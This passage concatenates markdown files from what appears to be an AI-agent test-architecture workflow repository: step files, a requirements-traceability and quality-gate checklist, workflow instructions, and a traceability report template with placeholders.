
## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/test-review-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-trace/SKILL.md`
```markdown
---
name: bmad-testarch-trace
description: 'Generate traceability matrix and quality gate decision. Use when the user says "lets create traceability matrix" or "I want to analyze test coverage"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-trace/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-trace/checklist.md`
```markdown
# Requirements Traceability & Gate Decision - Validation Checklist

**Workflow:** `testarch-trace`
**Purpose:** Ensure complete traceability matrix with actionable gap analysis AND make deployment readiness decision (PASS/CONCERNS/FAIL/WAIVED)

This checklist covers **two sequential phases**:

- **PHASE 1**: Requirements Traceability (always executed)
- **PHASE 2**: Quality Gate Decision (executed if `enable_gate_decision: true`)

---

# PHASE 1: REQUIREMENTS TRACEABILITY

## Prerequisites Validation

- [ ] Acceptance criteria are available (from story file OR inline)
- [ ] Test suite exists (or gaps are acknowledged and documented)
- [ ] If tests are missing, recommend `*atdd` (trace does not run it automatically)
- [ ] Test directory path is correct (`test_dir` variable)
- [ ] Story file is accessible (if using BMad mode)
- [ ] Knowledge base is loaded (test-priorities, traceability, risk-governance)

---

## Context Loading

- [ ] Story file read successfully (if applicable)
- [ ] Acceptance criteria extracted correctly
- [ ] Story ID identified (e.g., 1.3)
- [ ] `test-design.md` loaded (if available)
- [ ] `tech-spec.md` loaded (if available)
- [ ] `PRD.md` loaded (if available)
- [ ] Relevant knowledge fragments loaded from `tea-index.csv`

---

## Test Discovery and Cataloging

- [ ] Tests auto-discovered using multiple strategies (test IDs, describe blocks, file paths)
- [ ] Tests categorized by level (E2E, API, Component, Unit)
- [ ] Test metadata extracted:
  - [ ] Test IDs (e.g., 1.3-E2E-001)
  - [ ] Describe/context blocks
  - [ ] It blocks (individual test cases)
  - [ ] Given-When-Then structure (if BDD)
  - [ ] Priority markers (P0/P1/P2/P3)
- [ ] All relevant test files found (no tests missed due to naming conventions)

---

## Criteria-to-Test Mapping

- [ ] Each acceptance criterion mapped to tests (or marked as NONE)
- [ ] Explicit references found (test IDs, describe blocks mentioning criterion)
- [ ] Test level documented (E2E, API, Component, Unit)
- [ ] Given-When-Then narrative verified for alignment
- [ ] Traceability matrix table generated:
  - [ ] Criterion ID
  - [ ] Description
  - [ ] Test ID
  - [ ] Test File
  - [ ] Test Level
  - [ ] Coverage Status

---

## Coverage Classification

- [ ] Coverage status classified for each criterion:
  - [ ] **FULL** - All scenarios validated at appropriate level(s)
  - [ ] **PARTIAL** - Some coverage but missing edge cases or levels
  - [ ] **NONE** - No test coverage at any level
  - [ ] **UNIT-ONLY** - Only unit tests (missing integration/E2E validation)
  - [ ] **INTEGRATION-ONLY** - Only API/Component tests (missing unit confidence)
- [ ] Classification justifications provided
- [ ] Edge cases considered in FULL vs PARTIAL determination

---

## Duplicate Coverage Detection

- [ ] Duplicate coverage checked across test levels
- [ ] Acceptable overlap identified (defense in depth for critical paths)
- [ ] Unacceptable duplication flagged (same validation at multiple levels)
- [ ] Recommendations provided for consolidation
- [ ] Selective testing principles applied

---

## Gap Analysis

- [ ] Coverage gaps identified:
  - [ ] Criteria with NONE status
  - [ ] Criteria with PARTIAL status
  - [ ] Criteria with UNIT-ONLY status
  - [ ] Criteria with INTEGRATION-ONLY status
- [ ] Coverage heuristics gaps identified:
  - [ ] Endpoints referenced in requirements but not covered by API tests
  - [ ] Auth/authz criteria missing denied/invalid path tests
  - [ ] Criteria with happy-path-only coverage (missing error scenarios)
- [ ] Gaps prioritized by risk level using test-priorities framework:
  - [ ] **CRITICAL** - P0 criteria without FULL coverage (BLOCKER)
  - [ ] **HIGH** - P1 criteria without FULL coverage (PR blocker)
  - [ ] **MEDIUM** - P2 criteria without FULL coverage (nightly gap)
  - [ ] **LOW** - P3 criteria without FULL coverage (acceptable)
- [ ] Specific test recommendations provided for each gap:
  - [ ] Suggested test level (E2E, API, Component, Unit)
  - [ ] Test description (Given-When-Then)
  - [ ] Recommended test ID (e.g., 1.3-E2E-004)
  - [ ] Explanation of why test is needed

---

## Coverage Metrics

- [ ] Overall coverage percentage calculated (FULL coverage / total criteria)
- [ ] P0 coverage percentage calculated
- [ ] P1 coverage percentage calculated
- [ ] P2 coverage percentage calculated (if applicable)
- [ ] Coverage by level calculated:
  - [ ] E2E coverage %
  - [ ] API coverage %
  - [ ] Component coverage %
  - [ ] Unit coverage %

---

## Test Quality Verification

For each mapped test, verify:

- [ ] Explicit assertions are present (not hidden in helpers)
- [ ] Test follows Given-When-Then structure
- [ ] No hard waits or sleeps (deterministic waiting only)
- [ ] Self-cleaning (test cleans up its data)
- [ ] File size < 300 lines
- [ ] Test duration < 90 seconds

Quality issues flagged:

- [ ] **BLOCKER** issues identified (missing assertions, hard waits, flaky patterns)
- [ ] **WARNING** issues identified (large files, slow tests, unclear structure)
- [ ] **INFO** issues identified (style inconsistencies, missing documentation)

Knowledge fragments referenced:

- [ ] `test-quality.md` for Definition of Done
- [ ] `fixture-architecture.md` for self-cleaning patterns
- [ ] `network-first.md` for Playwright best practices
- [ ] `data-factories.md` for test data patterns

---

## Phase 1 Deliverables Generated

### Traceability Matrix Markdown

- [ ] File created at `{test_artifacts}/traceability-matrix.md`
- [ ] Template from `trace-template.md` used
- [ ] Full mapping table included
- [ ] Coverage status section included
- [ ] Gap analysis section included
- [ ] Quality assessment section included
- [ ] Recommendations section included

### Coverage Badge/Metric (if enabled)

- [ ] Badge markdown generated
- [ ] Metrics exported to JSON for CI/CD integration

### Updated Story File (if enabled)

- [ ] "Traceability" section added to story markdown
- [ ] Link to traceability matrix included
- [ ] Coverage summary included

---

## Phase 1 Quality Assurance

### Accuracy Checks

- [ ] All acceptance criteria accounted for (none skipped)
- [ ] Test IDs correctly formatted (e.g., 1.3-E2E-001)
- [ ] File paths are correct and accessible
- [ ] Coverage percentages calculated correctly
- [ ] No false positives (tests incorrectly mapped to criteria)
- [ ] No false negatives (existing tests missed in mapping)

### Completeness Checks

- [ ] All test levels considered (E2E, API, Component, Unit)
- [ ] All priorities considered (P0, P1, P2, P3)
- [ ] All coverage statuses used appropriately (FULL, PARTIAL, NONE, UNIT-ONLY, INTEGRATION-ONLY)
- [ ] All gaps have recommendations
- [ ] All quality issues have severity and remediation guidance

### Actionability Checks

- [ ] Recommendations are specific (not generic)
- [ ] Test IDs suggested for new tests
- [ ] Given-When-Then provided for recommended tests
- [ ] Impact explained for each gap
- [ ] Priorities clear (CRITICAL, HIGH, MEDIUM, LOW)

---

## Phase 1 Documentation

- [ ] Traceability matrix is readable and well-formatted
- [ ] Tables render correctly in markdown
- [ ] Code blocks have proper syntax highlighting
- [ ] Links are valid and accessible
- [ ] Recommendations are clear and prioritized

---

# PHASE 2: QUALITY GATE DECISION

**Note**: Phase 2 executes only if `enable_gate_decision: true` in workflow.yaml

---

## Prerequisites

### Evidence Gathering

- [ ] Test execution results obtained (CI/CD pipeline, test framework reports)
- [ ] Story/epic/release file identified and read
- [ ] Test design document discovered or explicitly provided (if available)
- [ ] Traceability matrix discovered or explicitly provided (available from Phase 1)
- [ ] NFR assessment discovered or explicitly provided (if available)
- [ ] Code coverage report discovered or explicitly provided (if available)
- [ ] Burn-in results discovered or explicitly provided (if available)

### Evidence Validation

- [ ] Evidence freshness validated (warn if >7 days old, recommend re-running workflows)
- [ ] All required assessments available or user acknowledged gaps
- [ ] Test results are complete (not partial or interrupted runs)
- [ ] Test results match current codebase (not from outdated branch)

### Knowledge Base Loading

- [ ] `risk-governance.md` loaded successfully
- [ ] `probability-impact.md` loaded successfully
- [ ] `test-quality.md` loaded successfully
- [ ] `test-priorities.md` loaded successfully
- [ ] `ci-burn-in.md` loaded (if burn-in results available)

---

## Process Steps

### Step 1: Context Loading

- [ ] Gate type identified (story/epic/release/hotfix)
- [ ] Target ID extracted (story_id, epic_num, or release_version)
- [ ] Decision thresholds loaded from workflow variables
- [ ] Risk tolerance configuration loaded
- [ ] Waiver policy loaded

### Step 2: Evidence Parsing

**Test Results:**

- [ ] Total test count extracted
- [ ] Passed test count extracted
- [ ] Failed test count extracted
- [ ] Skipped test count extracted
- [ ] Test duration extracted
- [ ] P0 test pass rate calculated
- [ ] P1 test pass rate calculated
- [ ] Overall test pass rate calculated

**Quality Assessments:**

- [ ] P0/P1/P2/P3 scenarios extracted from test-design.md (if available)
- [ ] Risk scores extracted from test-design.md (if available)
- [ ] Coverage percentages extracted from traceability-matrix.md (available from Phase 1)
- [ ] Coverage gaps extracted from traceability-matrix.md (available from Phase 1)
- [ ] NFR status extracted from nfr-assessment.md (if available)
- [ ] Security issues count extracted from nfr-assessment.md (if available)

**Code Coverage:**

- [ ] Line coverage percentage extracted (if available)
- [ ] Branch coverage percentage extracted (if available)
- [ ] Function coverage percentage extracted (if available)
- [ ] Critical path coverage validated (if available)

**Burn-in Results:**

- [ ] Burn-in iterations count extracted (if available)
- [ ] Flaky tests count extracted (if available)
- [ ] Stability score calculated (if available)

### Step 3: Decision Rules Application

**P0 Criteria Evaluation:**

- [ ] P0 test pass rate evaluated (must be 100%)
- [ ] P0 acceptance criteria coverage evaluated (must be 100%)
- [ ] Security issues count evaluated (must be 0)
- [ ] Critical NFR failures evaluated (must be 0)
- [ ] Flaky tests evaluated (must be 0 if burn-in enabled)
- [ ] P0 decision recorded: PASS or FAIL

**P1 Criteria Evaluation:**

- [ ] P1 test pass rate evaluated (threshold: min_p1_pass_rate)
- [ ] P1 acceptance criteria coverage evaluated (PASS >=90%, CONCERNS 80-89%, FAIL <80%)
- [ ] Overall test pass rate evaluated (threshold: min_overall_pass_rate)
- [ ] Overall requirements coverage evaluated (threshold: >=80%)
- [ ] Code coverage considered if available (informational unless explicitly required by policy)
- [ ] P1 decision recorded: PASS or CONCERNS

**P2/P3 Criteria Evaluation:**

- [ ] P2 failures tracked (informational, don't block if allow_p2_failures: true)
- [ ] P3 failures tracked (informational, don't block if allow_p3_failures: true)
- [ ] Residual risks documented

**Final Decision:**

- [ ] Decision determined: PASS / CONCERNS / FAIL / WAIVED
- [ ] Decision rationale documented
- [ ] Decision is deterministic (follows rules, not arbitrary)

### Step 4: Documentation

**Gate Decision Document Created:**

- [ ] Story/epic/release info section complete (ID, title, description, links)
- [ ] Decision clearly stated (PASS / CONCERNS / FAIL / WAIVED)
- [ ] Decision date recorded
- [ ] Evaluator recorded (user or agent name)

**Evidence Summary Documented:**

- [ ] Test results summary complete (total, passed, failed, pass rates)
- [ ] Coverage summary complete (P0/P1 criteria, code coverage)
- [ ] NFR validation summary complete (security, performance, reliability, maintainability)
- [ ] Flakiness summary complete (burn-in iterations, flaky test count)

**Rationale Documented:**

- [ ] Decision rationale clearly explained
- [ ] Key evidence highlighted
- [ ] Assumptions and caveats noted (if any)

**Residual Risks Documented (if CONCERNS or WAIVED):**

- [ ] Unresolved P1/P2 issues listed
- [ ] Probability × impact estimated for each risk
- [ ] Mitigations or workarounds described

**Waivers Documented (if WAIVED):**

- [ ] Waiver reason documented (business justification)
- [ ] Waiver approver documented (name, role)
- [ ] Waiver expiry date documented
- [ ] Remediation plan documented (fix in next release, due date)
- [ ] Monitoring plan documented

**Critical Issues Documented (if FAIL or CONCERNS):**

- [ ] Top 5-10 critical issues listed
- [ ] Priority assigned to each issue (P0/P1/P2)
- [ ] Owner assigned to each issue
- [ ] Due date assigned to each issue

**Recommendations Documented:**

- [ ] Next steps clearly stated for decision type
- [ ] Deployment recommendation provided
- [ ] Monitoring recommendations provided (if applicable)
- [ ] Remediation recommendations provided (if applicable)

### Step 5: Status Updates and Notifications

**Gate YAML Created:**

- [ ] Gate YAML snippet generated with decision and criteria
- [ ] Evidence references included in YAML
- [ ] Next steps included in YAML
- [ ] YAML file saved to output folder

**Stakeholder Notification Generated:**

- [ ] Notification subject line created
- [ ] Notification body created with summary
- [ ] Recipients identified (PM, SM, DEV lead, stakeholders)
- [ ] Notification ready for delivery (if notify_stakeholders: true)

**Outputs Saved:**

- [ ] Gate decision document saved to `{output_file}`
- [ ] Gate YAML saved to `{test_artifacts}/gate-decision-{target}.yaml`
- [ ] All outputs are valid and readable

---

## Phase 2 Output Validation

### Gate Decision Document

**Completeness:**

- [ ] All required sections present (info, decision, evidence, rationale, next steps)
- [ ] No placeholder text or TODOs left in document
- [ ] All evidence references are accurate and complete
- [ ] All links to artifacts are valid

**Accuracy:**

- [ ] Decision matches applied criteria rules
- [ ] Test results match CI/CD pipeline output
- [ ] Coverage percentages match reports
- [ ] NFR status matches assessment document
- [ ] No contradictions or inconsistencies

**Clarity:**

- [ ] Decision rationale is clear and unambiguous
- [ ] Technical jargon is explained or avoided
- [ ] Stakeholders can understand next steps
- [ ] Recommendations are actionable

### Gate YAML

**Format:**

- [ ] YAML is valid (no syntax errors)
- [ ] All required fields present (target, decision, date, evaluator, criteria, evidence)
- [ ] Field values are correct data types (numbers, strings, dates)

**Content:**

- [ ] Criteria values match decision document
- [ ] Evidence references are accurate
- [ ] Next steps align with decision type

---

## Phase 2 Quality Checks

### Decision Integrity

- [ ] Decision is deterministic (follows rules, not arbitrary)
- [ ] P0 failures result in FAIL decision (unless waived)
- [ ] Security issues result in FAIL decision (unless waived - but should never be waived)
- [ ] Waivers have business justification and approver (if WAIVED)
- [ ] Residual risks are documented (if CONCERNS or WAIVED)

### Evidence-Based

- [ ] Decision is based on actual test results (not guesses)
- [ ] All claims are supported by evidence
- [ ] No assumptions without documentation
- [ ] Evidence sources are cited (CI run IDs, report URLs)

### Transparency

- [ ] Decision rationale is transparent and auditable
- [ ] Criteria evaluation is documented step-by-step
- [ ] Any deviations from standard process are explained
- [ ] Waiver justifications are clear (if applicable)

### Consistency

- [ ] Decision aligns with risk-governance knowledge fragment
- [ ] Priority framework (P0/P1/P2/P3) applied consistently
- [ ] Terminology consistent with test-quality knowledge fragment
- [ ] Decision matrix followed correctly

---

## Phase 2 Integration Points

### CI/CD Pipeline

- [ ] Gate YAML is CI/CD-compatible
- [ ] YAML can be parsed by pipeline automation
- [ ] Decision can be used to block/allow deployments
- [ ] Evidence references are accessible to pipeline

### Stakeholders

- [ ] Notification message is clear and actionable
- [ ] Decision is explained in non-technical terms
- [ ] Next steps are specific and time-bound
- [ ] Recipients are appropriate for decision type

---

## Phase 2 Compliance and Audit

### Audit Trail

- [ ] Decision date and time recorded
- [ ] Evaluator identified (user or agent)
- [ ] All evidence sources cited
- [ ] Decision criteria documented
- [ ] Rationale clearly explained

### Traceability

- [ ] Gate decision traceable to story/epic/release
- [ ] Evidence traceable to specific test runs
- [ ] Assessments traceable to workflows that created them
- [ ] Waiver traceable to approver (if applicable)

### Compliance

- [ ] Security requirements validated (no unresolved vulnerabilities)
- [ ] Quality standards met or waived with justification
- [ ] Regulatory requirements addressed (if applicable)
- [ ] Documentation sufficient for external audit

---

## Phase 2 Edge Cases and Exceptions

### Missing Evidence

- [ ] If test-design.md missing, decision still possible with test results + trace
- [ ] If traceability-matrix.md missing, decision still possible with test results (but Phase 1 should provide it)
- [ ] If nfr-assessment.md missing, NFR validation marked as NOT ASSESSED
- [ ] If code coverage missing, coverage criterion marked as NOT ASSESSED
- [ ] User acknowledged gaps in evidence or provided alternative proof

### Stale Evidence

- [ ] Evidence freshness checked (if validate_evidence_freshness: true)
- [ ] Warnings issued for assessments >7 days old
- [ ] User acknowledged stale evidence or re-ran workflows
- [ ] Decision document notes any stale evidence used

### Conflicting Evidence

- [ ] Conflicts between test results and assessments resolved
- [ ] Most recent/authoritative source identified
- [ ] Conflict resolution documented in decision rationale
- [ ] User consulted if conflict cannot be resolved

### Waiver Scenarios

- [ ] Waiver only used for FAIL decision (not PASS or CONCERNS)
- [ ] Waiver has business justification (not technical convenience)
- [ ] Waiver has named approver with authority (VP/CTO/PO)
- [ ] Waiver has expiry date (does NOT apply to future releases)
- [ ] Waiver has remediation plan with concrete due date
- [ ] Security vulnerabilities are NOT waived (enforced)

---

# FINAL VALIDATION (Both Phases)

## Non-Prescriptive Validation

- [ ] Traceability format adapted to team needs (not rigid template)
- [ ] Examples are minimal and focused on patterns
- [ ] Teams can extend with custom classifications
- [ ] Integration with external systems supported (JIRA, Azure DevOps)
- [ ] Compliance requirements considered (if applicable)

---

## Documentation and Communication

- [ ] All documents are readable and well-formatted
- [ ] Tables render correctly in markdown
- [ ] Code blocks have proper syntax highlighting
- [ ] Links are valid and accessible
- [ ] Recommendations are clear and prioritized
- [ ] Gate decision is prominent and unambiguous (Phase 2)

---

## Final Validation

**Phase 1 (Traceability):**

- [ ] All prerequisites met
- [ ] All acceptance criteria mapped or gaps documented
- [ ] P0 coverage is 100% OR documented as BLOCKER
- [ ] Gap analysis is complete and prioritized
- [ ] Test quality issues identified and flagged
- [ ] Deliverables generated and saved

**Phase 2 (Gate Decision):**

- [ ] All quality evidence gathered
- [ ] Decision criteria applied correctly
- [ ] Decision rationale documented
- [ ] Gate YAML ready for CI/CD integration
- [ ] Status file updated (if enabled)
- [ ] Stakeholders notified (if enabled)

**Workflow Complete:**

- [ ] Phase 1 completed successfully
- [ ] Phase 2 completed successfully (if enabled)
- [ ] All outputs validated and saved
- [ ] Ready to proceed based on gate decision

---

## Sign-Off

**Phase 1 - Traceability Status:**

- [ ] ✅ PASS - All quality gates met, no critical gaps
- [ ] ⚠️ WARN - P1 gaps exist, address before PR merge
- [ ] ❌ FAIL - P0 gaps exist, BLOCKER for release

**Phase 2 - Gate Decision Status (if enabled):**

- [ ] ✅ PASS - Deploy to production
- [ ] ⚠️ CONCERNS - Deploy with monitoring
- [ ] ❌ FAIL - Block deployment, fix issues
- [ ] 🔓 WAIVED - Deploy with business approval and remediation plan

**Next Actions:**

- If PASS (both phases): Proceed to deployment
- If WARN/CONCERNS: Address gaps/issues, proceed with monitoring
- If FAIL (either phase): Run `*atdd` for missing tests, fix issues, re-run `*trace`
- If WAIVED: Deploy with approved waiver, schedule remediation

---

## Notes

Record any issues, deviations, or important observations during workflow execution:

- **Phase 1 Issues**: [Note any traceability mapping challenges, missing tests, quality concerns]
- **Phase 2 Issues**: [Note any missing, stale, or conflicting evidence]
- **Decision Rationale**: [Document any nuanced reasoning or edge cases]
- **Waiver Details**: [Document waiver negotiations or approvals]
- **Follow-up Actions**: [List any actions required after gate decision]

---

<!-- Powered by BMAD-CORE™ -->
```

## File: `src/workflows/testarch/bmad-testarch-trace/instructions.md`
```markdown
# Requirements Traceability & Quality Gate

**Workflow:** `bmad-testarch-trace`
**Version:** 5.0 (Step-File Architecture)

---

## Overview

Create a requirements-to-tests traceability matrix, analyze coverage gaps, and optionally make a gate decision (PASS/CONCERNS/FAIL/WAIVED) based on evidence.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture**:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `test_dir`, `source_dir`, `coverage_levels`, `gate_type`, `decision_mode`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-load-context.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-trace/trace-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
workflowType: 'testarch-trace'
inputDocuments: []
---

# Traceability Matrix & Gate Decision - Story {STORY_ID}

**Story:** {STORY_TITLE}
**Date:** {DATE}
**Evaluator:** {user_name or TEA Agent}

---

Note: This workflow does not generate tests. If gaps exist, run `*atdd` or `*automate` to create coverage.

## PHASE 1: REQUIREMENTS TRACEABILITY

### Coverage Summary

| Priority  | Total Criteria | FULL Coverage | Coverage % | Status       |
| --------- | -------------- | ------------- | ---------- | ------------ |
| P0        | {P0_TOTAL}     | {P0_FULL}     | {P0_PCT}%  | {P0_STATUS}  |
| P1        | {P1_TOTAL}     | {P1_FULL}     | {P1_PCT}%  | {P1_STATUS}  |
| P2        | {P2_TOTAL}     | {P2_FULL}     | {P2_PCT}%  | {P2_STATUS}  |
| P3        | {P3_TOTAL}     | {P3_FULL}     | {P3_PCT}%  | {P3_STATUS}  |
| **Total** | **{TOTAL}**    | **{FULL}**    | **{PCT}%** | **{STATUS}** |

**Legend:**

- ✅ PASS - Coverage meets quality gate threshold
- ⚠️ WARN - Coverage below threshold but not critical
- ❌ FAIL - Coverage below minimum threshold (blocker)

---

### Detailed Mapping

#### {CRITERION_ID}: {CRITERION_DESCRIPTION} ({PRIORITY})

- **Coverage:** {COVERAGE_STATUS} {STATUS_ICON}
- **Tests:**
  - `{TEST_ID}` - {TEST_FILE}:{LINE}
    - **Given:** {GIVEN}
    - **When:** {WHEN}
    - **Then:** {THEN}
  - `{TEST_ID_2}` - {TEST_FILE_2}:{LINE}
    - **Given:** {GIVEN_2}
    - **When:** {WHEN_2}
    - **Then:** {THEN_2}

- **Gaps:** (if PARTIAL or UNIT-ONLY or INTEGRATION-ONLY)
  - Missing: {MISSING_SCENARIO_1}
  - Missing: {MISSING_SCENARIO_2}

- **Recommendation:** {RECOMMENDATION_TEXT}

---

#### Example: AC-1: User can login with email and password (P0)

- **Coverage:** FULL ✅
- **Tests:**
  - `1.3-E2E-001` - tests/e2e/auth.spec.ts:12
    - **Given:** User has valid credentials
    - **When:** User submits login form
    - **Then:** User is redirected to dashboard
  - `1.3-UNIT-001` - tests/unit/auth-service.spec.ts:8
    - **Given:** Valid email and password hash
    - **When:** validateCredentials is called
    - **Then:** Returns user object

---

#### Example: AC-3: User can reset password via email (P1)

- **Coverage:** PARTIAL ⚠️
- **Tests:**
  - `1.3-E2E-003` - tests/e2e/auth.spec.ts:44
    - **Given:** User requests password reset
    - **When:** User clicks reset link in email
    - **Then:** User can set new password

- **Gaps:**
  - Missing: Email delivery validation
  - Missing: Expired token handling (error path)
  - Missing: Invalid token handling (security test)
  - Missing: Unit test for token generation logic

- **Recommendation:** Add `1.3-API-001` for email service integration testing and `1.3-UNIT-003` for token generation logic. Add `1.3-E2E-004` for error path validation (expired/invalid tokens).

---

### Gap Analysis

#### Critical Gaps (BLOCKER) ❌

{CRITICAL_GAP_COUNT} gaps found. **Do not release until resolved.**

1. **{CRITERION_ID}: {CRITERION_DESCRIPTION}** (P0)
   - Current Coverage: {COVERAGE_STATUS}
   - Missing Tests: {MISSING_TEST_DESCRIPTION}
   - Recommend: {RECOMMENDED_TEST_ID} ({RECOMMENDED_TEST_LEVEL})
   - Impact: {IMPACT_DESCRIPTION}

---

#### High Priority Gaps (PR BLOCKER) ⚠️

{HIGH_GAP_COUNT} gaps found. **Address before PR merge.**

1. **{CRITERION_ID}: {CRITERION_DESCRIPTION}** (P1)
   - Current Coverage: {COVERAGE_STATUS}
   - Missing Tests: {MISSING_TEST_DESCRIPTION}
   - Recommend: {RECOMMENDED_TEST_ID} ({RECOMMENDED_TEST_LEVEL})
   - Impact: {IMPACT_DESCRIPTION}

---

#### Medium Priority Gaps (Nightly) ⚠️

{MEDIUM_GAP_COUNT} gaps found. **Address in nightly test improvements.**

1. **{CRITERION_ID}: {CRITERION_DESCRIPTION}** (P2)
   - Current Coverage: {COVERAGE_STATUS}
   - Recommend: {RECOMMENDED_TEST_ID} ({RECOMMENDED_TEST_LEVEL})

---

#### Low Priority Gaps (Optional) ℹ️

{LOW_GAP_COUNT} gaps found. **Optional - add if time permits.**

1. **{CRITERION_ID}: {CRITERION_DESCRIPTION}** (P3)
   - Current Coverage: {COVERAGE_STATUS}

---

### Coverage Heuristics Findings

#### Endpoint Coverage Gaps

- Endpoints without direct API tests: {endpoint_gap_count}
- Examples:
  - {endpoint_gap_1}
  - {endpoint_gap_2}

#### Auth/Authz Negative-Path Gaps

- Criteria missing denied/invalid-path tests: {auth_negative_gap_count}
- Examples:
  - {auth_gap_1}
  - {auth_gap_2}

#### Happy-Path-Only Criteria

- Criteria missing error/edge scenarios: {happy_path_only_gap_count}
- Examples:
  - {happy_path_gap_1}
  - {happy_path_gap_2}

---

### Quality Assessment

#### Tests with Issues

**BLOCKER Issues** ❌

- `{TEST_ID}` - {ISSUE_DESCRIPTION} - {REMEDIATION}

**WARNING Issues** ⚠️

- `{TEST_ID}` - {ISSUE_DESCRIPTION} - {REMEDIATION}

**INFO Issues** ℹ️

- `{TEST_ID}` - {ISSUE_DESCRIPTION} - {REMEDIATION}

---

#### Example Quality Issues

**WARNING Issues** ⚠️

- `1.3-E2E-001` - 145 seconds (exceeds 90s target) - Optimize fixture setup to reduce test duration
- `1.3-UNIT-005` - 320 lines (exceeds 300 line limit) - Split into multiple focused test files

**INFO Issues** ℹ️

- `1.3-E2E-002` - Missing Given-When-Then structure - Refactor describe block to use BDD format

---

#### Tests Passing Quality Gates

**{PASSING_TEST_COUNT}/{TOTAL_TEST_COUNT} tests ({PASSING_PCT}%) meet all quality criteria** ✅

---

### Duplicate Coverage Analysis

#### Acceptable Overlap (Defense in Depth)

- {CRITERION_ID}: Tested at unit (business logic) and E2E (user journey) ✅

#### Unacceptable Duplication ⚠️

- {CRITERION_ID}: Same validation at E2E and Component level
  - Recommendation: Remove {TEST_ID} or consolidate with {OTHER_TEST_ID}

---

### Coverage by Test Level

| Test Level | Tests             | Criteria Covered     | Coverage %       |
| ---------- | ----------------- | -------------------- | ---------------- |
| E2E        | {E2E_COUNT}       | {E2E_CRITERIA}       | {E2E_PCT}%       |
| API        | {API_COUNT}       | {API_CRITERIA}       | {API_PCT}%       |
| Component  | {COMP_COUNT}      | {COMP_CRITERIA}      | {COMP_PCT}%      |
| Unit       | {UNIT_COUNT}      | {UNIT_CRITERIA}      | {UNIT_PCT}%      |
| **Total**  | **{TOTAL_TESTS}** | **{TOTAL_CRITERIA}** | **{TOTAL_PCT}%** |

---

### Traceability Recommendations

#### Immediate Actions (Before PR Merge)

1. **{ACTION_1}** - {DESCRIPTION}
2. **{ACTION_2}** - {DESCRIPTION}

#### Short-term Actions (This Milestone)

1. **{ACTION_1}** - {DESCRIPTION}
2. **{ACTION_2}** - {DESCRIPTION}

#### Long-term Actions (Backlog)

1. **{ACTION_1}** - {DESCRIPTION}

---

#### Example Recommendations

**Immediate Actions (Before PR Merge)**

1. **Add P1 Password Reset Tests** - Implement `1.3-API-001` for email service integration and `1.3-E2E-004` for error path validation. P1 coverage currently at 80%, target is 90%.
2. **Optimize Slow E2E Test** - Refactor `1.3-E2E-001` to use faster fixture setup. Currently 145s, target is <90s.

**Short-term Actions (This Milestone)**

1. **Enhance P2 Coverage** - Add E2E validation for session timeout (`1.3-E2E-005`). Currently UNIT-ONLY coverage.
2. **Split Large Test File** - Break `1.3-UNIT-005` (320 lines) into multiple focused test files (<300 lines each).

**Long-term Actions (Backlog)**

1. **Enrich P3 Coverage** - Add tests for edge cases in P3 criteria if time permits.

---

## PHASE 2: QUALITY GATE DECISION

**Gate Type:** {story | epic | release | hotfix}
**Decision Mode:** {deterministic | manual}

---

### Evidence Summary

#### Test Execution Results

- **Total Tests**: {total_count}
- **Passed**: {passed_count} ({pass_percentage}%)
- **Failed**: {failed_count} ({fail_percentage}%)
- **Skipped**: {skipped_count} ({skip_percentage}%)
- **Duration**: {total_duration}

**Priority Breakdown:**

- **P0 Tests**: {p0_passed}/{p0_total} passed ({p0_pass_rate}%) {✅ | ❌}
- **P1 Tests**: {p1_passed}/{p1_total} passed ({p1_pass_rate}%) {✅ | ⚠️ | ❌}
